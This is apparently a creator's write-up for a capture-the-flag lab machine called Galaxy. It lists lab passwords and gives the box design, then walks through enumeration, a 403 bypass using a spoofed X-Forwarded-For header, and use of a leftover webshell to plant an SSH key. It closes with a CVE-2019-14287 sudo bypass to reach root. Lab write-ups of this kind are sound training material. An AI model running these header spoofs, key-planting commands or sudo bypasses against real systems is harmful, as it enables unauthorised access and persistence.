 # [Galaxy]

## Introduction

Galaxy is easy level machine In this challenge, machine hosting a beta website about cosmic facts. The site was vulnerable to bypassing the 403 Forbidden restriction using the X-Forwarded-For header. After successfully bypassing 403 restriction we can see devs left webshell which uses custom web user after user enumeration we can find box vulnerable to CVE-2019-14287 
## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| web | Ab401c |
| root  | root8618 |

### Key Processes

1) SSH server on 22 port
2) Apache2 server on 80 port which is vulnerable to http host header
3) There is web shell in /developers directory (in story web site is in beta situation devs unaware of http-header vulnerabilit)
4) For root privilege escalation I set CVE-2019-14287 it is from real world and I believe it suits to box story
5) There is other user besides `web` and `root` (john  lily  tom) and they are dummy users to simulate developers environment and they are shouldn't be rabbit hole because there is nothing there and player will immediatly understand the privelege escalation if they see outdated sudo version (I am okay if htb devs wants to remove them)

### Automation / Crons
There is no automation

### Firewall Rules

There is no firewall rule

### Docker

There is no docker

### Other

1)I made my own ip address to redirect to galaxy.htb in /etc/apache2/sites-avialabel/000-default.conf<br>


# Writeup

# Enumeration

We begin enumeration with nmap tools from ports of target:<br>
`sudo nmap -sC -sV 192.168.2.110 -p- --min-rate=1000 -T4`<br>
`-sC` This flag for basic scripting<br>
`-sV` This flag for to check version<br>
`-p-` To check all ports we do not want to miss any<br>
`-T4` This flag to make scaning slightly faster (default -T3 when you don't specify)<br>
`--min-rate=1000` This is minimum rate of nmap packets<br>

![image](https://github.com/user-attachments/assets/0ceb7925-bc85-46b2-a07c-a15b77d72ce6)

We can see there are 22 and 80 port open. Website has galaxy.htb domain we need to add that domain with it's IP to our /etc/hosts file :<br>
```
echo "192.168.2.110       galaxy.htb" | sudo tee -a /etc/hosts
```
Website looks like blog about cosmos and it is in beta version
<br>
<br>
![image](https://github.com/user-attachments/assets/402a2623-84b0-4d82-97a7-1fbe5681ee21)

Let's enumerate directories and subdirectories using ffuf tool:<br>
```
ffuf -u http://galaxy.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```
<br>
We find /developers and /photos directories and we are not allowed to access /developers directory<br>

![image](https://github.com/user-attachments/assets/9e1c6a0c-dd6f-4836-85e4-a83ed47ad8f6)

<br>
This message gives idea that maybe developers should be from internal network? Trying to enumerate any subdomains other directory leads us nothing. So we try to find a way to access /developers directory.<br>
Googling 403 bypass error we find [this](https://github.com/justdoston/403-Bypass) documentation.<br>
According to documentation trying to add forward headers with 127.0.0.1 ip will work, because server will think user trying to access from internal IP address.<br>

Let's use proxy forwarding tool such as burp suite to manupulate and try this technique.<br>
![image](https://github.com/user-attachments/assets/605568f6-ecb7-4b28-a860-f5d9f7f40430)


`X-Forwarded-For: 127.0.0.1` header successfuly worked to bypass<br>
![image](https://github.com/user-attachments/assets/3374c55f-ae55-45b0-9f02-3b87781a9c92)



# Foothold

We use same technique to see content of README.md file:<br>
![image](https://github.com/user-attachments/assets/b3785047-9a54-42f9-99ba-cc7f56164d91)
<br>
Not much usefull let's take a look to web.php file<br>
![image](https://github.com/user-attachments/assets/1ce77e27-b006-49be-b5fa-1f321d4f40e7)

<br>
It looks like developers left webshell in developers directory, it is because web site hasn't been finished fully yet<br>
We can copy our own id_rsa.pub (publick key) to web users authorized_keys to login via ssh without a password

```
echo "public key" > /home/web/.ssh/authorized_keys
```


<br>
Let's login using our own ssh with id_rsa for more comfortable and stable shell. If you don't have id_rsa keys create using 

<br>`ssh-keygen -t rsa`<br>

````
┌──(master㉿kali)-[~/.ssh]
└─$ ssh -i id_rsa web@192.168.2.106
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-50-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Jan 24 02:47:24 AM UTC 2025

  System load:  0.0               Processes:               105
  Usage of /:   33.7% of 7.79GB   Users logged in:         0
  Memory usage: 9%                IPv4 address for enp0s3: 192.168.2.106
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Fri Jan 24 02:19:46 2025 from 192.168.2.107
$ 
````
user flag can be found in web home directory.<br>

# Privilege Escalation
There is README.md file which admin left message to others!
````
Dear developers!

We need to finish our beta test as fast as possible, for more comfortable evnironment I made other user accessible from web user!
Please do not store any sensitive information ! This is office working computers!
````
After enumeration we can find user web allowed to user /usr/bin/bash as any user except root since it confirms we can use it for other users:
````
User web may run the following commands on galaxy:
    (ALL, !root) NOPASSWD: /usr/bin/bash
````
This means we can use `bash` as other user to access like: `sudo -u john /usr/bin/bash` but sudo forbids if we try to access `root` because of `!root`
Searching other users directory we find nothing but we should pay attention to sudo version:
````
$ sudo -V
Sudo version 1.8.27
Sudoers policy plugin version 1.8.27
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.27
````
This not latest sudo version and after searching from databases we find this version is vulnerable to CVE-2019-14287.<br>
According to [this](https://www.exploit-db.com/exploits/47502) documentation we can bypass using:
````
sudo -u#-1 /usr/bin/bash
````
![image](https://github.com/user-attachments/assets/159f07e4-7200-401b-b264-12246a61181c)
<br>
Here wee can see trying to directly access to the root user didn't work but as expected we can bypass it!



